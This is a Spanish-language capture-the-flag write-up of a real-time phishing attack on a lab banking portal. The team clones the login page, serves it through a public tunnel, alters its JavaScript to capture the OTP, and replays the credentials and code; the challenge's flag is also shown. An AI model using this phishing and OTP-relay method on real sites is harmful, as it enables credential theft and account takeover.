








# Veltra Bank — HackLab 2026

**Equipo:** ensalada · **Universidad:** UTN FRRe  
**Integrantes:** Ezequiel Maldonado, Philippe Maurel Garcete y Franco Sanchez  
**Desafío:** Veltra Bank · **Categoría:** Autenticación

La solución captura las credenciales y el OTP mediante una réplica del portal para acceder a la cuenta de Gastón Díaz.

## 1. El desafío y la hipótesis

El desafío pide iniciar sesión como Gastón Díaz. La plataforma permite indicar el dominio del desafío —con protocolo y sin ruta— y una URL completa para que el cliente la visite. La visita solo puede solicitarse una vez por minuto, no admite direcciones locales o internas y no debe atacarse. El enunciado ya habla de un sitio falso y advierte que, si Gastón ve algo sospechoso, cierra la página.

Al abrir la instancia, la página inicial es el login de VeltraBank, con los campos Usuario y Contraseña y el botón Continuar.



*Login inicial de VeltraBank, con los campos de usuario y contraseña.*

Esa pantalla, junto con la posibilidad de enviar a Gastón a una URL y la advertencia de que cierra una página sospechosa, nos lleva a la hipótesis de reproducir el portal para comprobar si introduce allí sus credenciales. El propio enunciado plantea el sitio falso; queda por comprobar si una página equivalente al banco basta.

## 2. La carpeta de trabajo y el servidor de login

Creamos `~/veltra-replica` y descargamos el login con GNU Wget desde la terminal de Linux. En `BANCO` indicamos el dominio de nuestra instancia, con protocolo y sin ruta:

```sh
mkdir -p ~/veltra-replica
cd ~/veltra-replica
BANCO="https://DOMINIO_DE_LA_INSTANCIA"
wget --page-requisites --convert-links --adjust-extension \
     --no-host-directories "$BANCO/login"
```

`--page-requisites` descarga los recursos referenciados por la página; `--convert-links` adapta los enlaces a las copias locales y `--adjust-extension` guarda el HTML como [`login.html`](replica/login.html). Con `--no-host-directories`, los recursos del banco quedan en `static/`, sin una carpeta adicional con el nombre del dominio. Las fuentes de Google siguen cargándose desde sus URLs originales.

Para saber qué solicitud debe atender nuestro servidor, miramos el JavaScript de la página. En [`veltra.js`](replica/static/veltra.js), el primer formulario envía:

```javascript
var usuario = document.getElementById("txt-login").value.trim();
var clave = document.getElementById("txt-password").value;
enviarJSON("/api/login", { usuario: usuario, clave: clave })
```

El servidor debe recibir un `POST /api/login` con el JSON `{usuario, clave}` y mostrar esos valores en la terminal.

Para que la visita funcione necesitamos dos procesos: el servidor Python que sirve la réplica y muestra las solicitudes, y un túnel que publica ese servidor mediante una URL pública. Mantenemos cada uno en una terminal.

Para servir la copia y registrar las credenciales enviadas, creamos [`servidor_login.py`](replica/servidor_login.py). Usa `http.server` de la biblioteca estándar, sirve el HTML, CSS y JavaScript, atiende el POST del formulario y muestra en la terminal el JSON recibido. La respuesta que devuelve es un rechazo simulado.

En la terminal A lo ejecutamos desde la carpeta de trabajo:

```sh
cd ~/veltra-replica
python3 servidor_login.py
```

Al iniciar imprime:

```text
Servidor de login en http://127.0.0.1:8001/
```

La terminal A queda abierta: allí aparecen las solicitudes y los datos del formulario.



*La copia se sirve en `127.0.0.1:8001`; la captura muestra una prueba con datos ficticios.*

Los archivos de esta etapa son:

```text
~/veltra-replica/
  login.html
  static/
    styles.css
    veltra.js
  servidor_login.py
```

## 3. El túnel y la primera visita

En la terminal B abrimos un túnel SSH hacia el puerto local:

```sh
ssh -R 80:127.0.0.1:8001 nokey@localhost.run
```

SSH mantiene el túnel y localhost.run anuncia una URL pública HTTPS. Esa URL es necesaria porque el cliente del desafío no puede entrar a `127.0.0.1`. La terminal A sigue con el servidor; la terminal B queda abierta con el túnel. Ambas deben permanecer abiertas.

En nuestra primera visita, localhost.run anuncia:

```text
14d8e54d7808a4.lhr.life tunneled with tls termination, https://14d8e54d7808a4.lhr.life
```

La URL que se copia al formulario es la URL completa que comienza por `https://`. El parámetro `?probe=...` que aparece en la captura es un marcador opcional para reconocer la visita en los logs; no es necesario para el ataque. La URL cambia si se abre un túnel nuevo; hay que usar la que anuncie la terminal B en cada ejecución. La documentación del servicio está en [localhost.run/docs](https://localhost.run/docs/).



*Línea de localhost.run con la URL HTTPS de la primera visita.*

En el formulario del desafío escribimos el dominio de la instancia con protocolo y sin ruta, pegamos la URL HTTPS completa y pulsamos **Hacer que el cliente visite la URL**. El mensaje «El cliente de Veltra Bank está por iniciar sesión» confirma que la visita está en marcha.



*Formulario del desafío con el dominio del banco y la URL de la réplica; abajo, el mensaje de inicio de la visita.*

Volvemos a la terminal A, donde el servidor registra la visita y el envío del formulario:

```text
127.0.0.1 - - [19/Oct/2026 01:04:57] "GET /?probe=veltra-20261019-clone-01 HTTP/1.1" 200 -
TEST POST /api/login: {"usuario": "gaston.diaz", "clave": "Gaston$5.!@1990"}
127.0.0.1 - - [19/Oct/2026 01:05:01] "POST /api/login HTTP/1.1" 200 -
```

El `POST` contiene las credenciales y el servidor devuelve el rechazo simulado. Con esos datos, pasamos a la página original del banco.

## 4. El segundo factor

Abrimos el login de la instancia en una pestaña y enviamos las credenciales capturadas. La API responde:

```json
{"next":"/verificar","ok":true}
```

La respuesta es JSON; el JavaScript lee `next` y carga `/verificar`. Dejamos esa pestaña abierta, esperando completar la verificación.

La pantalla muestra el paso 2 de 2, el saludo a `gaston.diaz` y el campo para el código de seis dígitos.



*Pantalla de verificación en dos pasos de la instancia bancaria.*

El segundo factor es un OTP de seis cifras. Antes de descargar y adaptar `/verificar`, analizamos el manejador 2FA de `veltra.js`.

## 5. La captura directa del OTP

En el JavaScript original descargado del banco, el manejador 2FA de `veltra.js` se activa cuando existe `form-2fa`. Este fragmento reúne las líneas que intervienen en el cálculo (se omiten las ramas de error):

```javascript
var codigo = document.getElementById("txt-2fa").value.trim();
enviarJSON("/api/challenge")
  .then(function (data) {
    ...
    var respuesta = sha256(data.nonce + ":" + codigo);
    return enviarJSON("/api/verificar", { respuesta: respuesta })
```

El intercambio es:

1. El usuario introduce un código.
2. El navegador solicita `GET /api/challenge`.
3. El servidor genera y devuelve un `nonce` para ese intento.
4. El navegador calcula `SHA-256(nonce + ":" + codigo)`.
5. Envía `POST /api/verificar` con `{"respuesta":"..."}`.
6. El servidor valida esa respuesta.

El `nonce` es un valor de desafío, no el OTP. La respuesta de `/api/challenge` no contiene el código del usuario. El navegador calcula el hash y el POST no lleva el código en claro.

Sin embargo, el código ingresado ya está disponible en `txt-2fa` antes de aplicar el hash. Como controlamos el JavaScript que sirve nuestra réplica, podemos modificarlo para que nos envíe directamente ese valor. La hipótesis es que Gastón complete también esta pantalla y que podamos usar su OTP en la verificación pendiente del banco.

La réplica inicial no contempla esta pantalla. Para incorporarla, detenemos `servidor_login.py` con `Ctrl+C` en la terminal A y descargamos `/verificar` en la misma carpeta como [`verificacion-local.html`](replica/verificacion-local.html). Esta ruta requiere la sesión del banco: en las herramientas de desarrollo del navegador, pestaña **Red**, copiamos el valor del encabezado `Cookie` de una solicitud autenticada de la pestaña que dejamos esperando el segundo factor. Sustituimos el marcador del comando por ese valor:

```sh
wget --header='Cookie: <valor del encabezado Cookie de la sesión del banco>' \
     --output-document=verificacion-local.html "$BANCO/verificar"
```

Conservamos las referencias a `/static/styles.css` y `/static/veltra.js`, ya descargados, y el enlace de vuelta a `/login`. La página mantiene el saludo a `gaston.diaz`.

En nuestra copia de [`veltra.js`](replica/static/veltra.js), sustituimos la consulta del challenge y el cálculo del hash por el envío directo del código. El fragmento relevante del manejador queda así:

```javascript
var codigo = document.getElementById("txt-2fa").value.trim();
enviarJSON("/api/verificar", { codigo: codigo })
```

Conservamos el resto del manejador, que muestra la respuesta del servidor. La réplica envía `{"codigo":"..."}` a nuestro receptor; el portal original mantiene su intercambio con nonce y SHA-256. Después de editar el script, hacemos una recarga forzada del navegador (`Ctrl+F5`) para evitar que use la versión anterior en caché.

## 6. La nueva visita

La primera versión del servidor solo atiende el login. Para incorporar estas rutas, ampliamos el servidor y guardamos esta versión como [`servidor_completo.py`](replica/servidor_completo.py). Agrega el avance a `/verificar`, la página de verificación y `POST /api/verificar`, donde lee el campo `codigo` y lo imprime en la terminal. No son dos servicios simultáneos: ambas versiones usan la misma carpeta y el mismo puerto.

En la misma terminal A arrancamos la versión completa:

```sh
python3 servidor_completo.py
```

Al iniciar imprime:

```text
Servidor completo en http://127.0.0.1:8001/
```

En esta etapa el servidor no imprime las credenciales del login; registra el OTP recibido. Después devuelve un rechazo simulado: su función es capturar el código. El túnel de la terminal B sigue apuntando al puerto `8001`.



*La versión completa sirve `/verificar` en `127.0.0.1:8001`.*

Solicitamos una nueva visita con la URL pública vigente. Gastón Díaz vuelve a entrar por la raíz de la réplica, completa el login y llega al formulario del OTP. La pestaña del banco sigue abierta, esperando la verificación.

Volvemos a la terminal A y observamos el recorrido registrado:

```text
LOCAL POST /api/login (JSON recibido; valores omitidos)
127.0.0.1 - - [20/Oct/2026 05:22:30] "POST /api/login HTTP/1.1" 200 -
[...]
127.0.0.1 - - [20/Oct/2026 05:22:31] "GET /verificar HTTP/1.1" 200 -
LOCAL POST /api/verificar codigo=429989
127.0.0.1 - - [20/Oct/2026 05:22:33] "POST /api/verificar HTTP/1.1" 200 -
```

El receptor recibe directamente `429989`, el código que Gastón introduce en la réplica. El OTP tiene una vigencia limitada y debemos usarlo enseguida. Si expira antes de completar el acceso, hay que solicitar otra visita y capturar el nuevo código.

## 7. El acceso en el banco

Volvemos a la pestaña del banco, escribimos `429989` y pulsamos **Confirmar e ingresar**. Lo usamos dentro de su vigencia.

Al pulsar el botón, el JavaScript original del banco solicita un challenge a la instancia, calcula `SHA-256(nonce + ":" + codigo)` con ese OTP y envía la respuesta a `/api/verificar`. El banco acepta el código capturado.

El navegador carga `/dashboard` siguiendo `next`. La página identifica a `gaston.diaz`, muestra «Sesión verificada» y presenta la flag:



*Dashboard autenticado de Gastón Díaz con la flag.*

**Flag:** `e769a8f5702bc47d98732409d2794756`

La respuesta del verificador de la instancia y el dashboard autenticado confirman el acceso.

## 8. Síntesis

La réplica permite que Gastón llegue a un login controlado y entregue sus credenciales. En una nueva visita, también introduce el OTP. Al modificar el JavaScript servido por nuestra copia, recibimos directamente el código en los logs.

Con el OTP capturado, volvemos a la pestaña del banco que sigue abierta y completamos la verificación dentro de su vigencia. El cálculo del hash en el navegador no impide la captura: la réplica controla el código que lee el formulario. El dashboard confirma el acceso como `gaston.diaz` y muestra la flag.



## 9. Remediación

OWASP A07:2025 agrupa los fallos de autenticación, incluida la gestión inadecuada de factores y verificaciones ([A07:2025 — Authentication Failures](https://top10.owasp.org/2025/A07_2025-Authentication_Failures/)). En este caso, el banco ya valida la respuesta en el servidor, pero el OTP puede capturarse en una réplica y usarse en el sitio legítimo. Calcular un hash antes de enviar el código no evita este ataque: quien controla la página falsa puede modificar su JavaScript y leer el valor antes de esa transformación.

Para resistir una réplica del portal, la defensa principal es la autenticación vinculada al origen, como WebAuthn/passkeys; OWASP reúne las recomendaciones de autenticación multifactor en su [Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html). La vigencia corta, el uso único, la invalidación y los límites de intentos son controles complementarios del OTP: no impiden por sí solos que una réplica capture el código que el usuario introduce y lo use a tiempo en el banco. Agregar otro nonce, otra capa de hash o cambiar únicamente el transporte tampoco resuelve el ataque.

El paquete [`replica/`](replica/) reúne los archivos de apoyo de esta resolución: `login.html`, `static/`, `verificacion-local.html`, `servidor_login.py` y `servidor_completo.py`. No forma parte de los recursos entregados por el desafío; queda como material para reproducir el recorrido.
